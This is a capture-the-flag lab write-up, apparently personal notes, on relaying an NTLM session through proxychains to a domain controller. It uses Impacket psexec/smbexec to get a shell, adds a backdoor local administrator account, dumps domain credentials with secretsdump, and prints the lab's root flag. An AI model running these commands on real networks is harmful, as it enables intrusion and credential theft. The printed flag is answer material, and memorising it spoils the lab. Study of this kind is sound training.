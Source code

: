 We now have a working relay from S-SRV02. We can now weaponize this relay to attempt to gain further access to the domain and dump credentials on DC-SRV01 using the captured session.  

To begin working with the session, we need to configure our proxy settings to tunnel through the SOCKs session created by NTLMRelayX. Add the following line to your proxychains configuration:  

`socks4 127.0.0.1 1080`

First, we're going to be utilizing psexec, [https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py.](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py.)

This is the first tool we'll use in the Remote NetNTLMRelay; this will allow us to execute one-off commands in a non-interactive shell on the target system. We can use this to add a new user account on the domain, and we can also grant them Local Administrator access on the Domain Controller. This will allow us to move into the next section, enabling us to dump all credentials on the domain. Alternatively, you could add this user to the Domain Admins group and proceed without dumping credentials.  

Syntax to gain RCE: `proxychains psexec.py -no-pass HOLOLIVE/SRV-ADMIN@10.200.x.30`

Syntax to add a new user: `net user MyNewUser Password123! /add`

Syntax to add the user to the Local Admin group: `net localgroup Administrators /add MyNewUser`

> [!note]
> If you are experiencing issues with PSExec, try SMBExec.


The second tool we are looking at is secretsdump, [https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py). 

This tool is also part of the Impacket suite and attempts to dump domain hashes and other authentication information from a remote attacker. From the secretsdump GitHub, *"Performs various techniques to dump hashes from the remote machine without executing any agent there. For SAM and LSA Secrets (including cached creds) we try to read as much as we can from the registry and then we save the hives in the target system (%SYSTEMROOT%\\Temp dir) and read the rest of the data from there."*  

We can automatically authenticate to secretsdump and dump machine account credentials from the domain controller using our captured session. Find syntax for secretsdump below.  

Syntax: `secretsdump.py 'HOLOLIVE/MyNewUser:Password123!@10.200.x.30'`

We should have dumped credentials for the entire domain, and we essentially own the domain at this point. We can now move on to exfiltration and clean up our target and goal.


---
# Your job

- On the attacking machine,  add the following line to `/etc/proxychains4.conf`.

```
$ socks4 127.0.0.1 1080
```

- Run the following command.

```
$ proxychains /usr/bin/impacket-smbexec HOLOLIVE/SRV-ADMIN@10.200.X.30 -no-pass
```

![[Task 48 - Ready your weapons-20241123142537654.webp]]

> [!success]
> You have a semi-interactive shell on **DC-SRV01** as root.


---

## Flag after rooting DC-SRV01

- Run the following code to get root's flag.

```
C:\Windows\system32>type c:\Users\Administrator\Desktop\root.txt

```
    
    HOLO{29d166d973477c6d8b00ae1649ce3a44}
    
- Submit the user flag on Task 4, question 8.


**Next step:** [[Conclusion]]



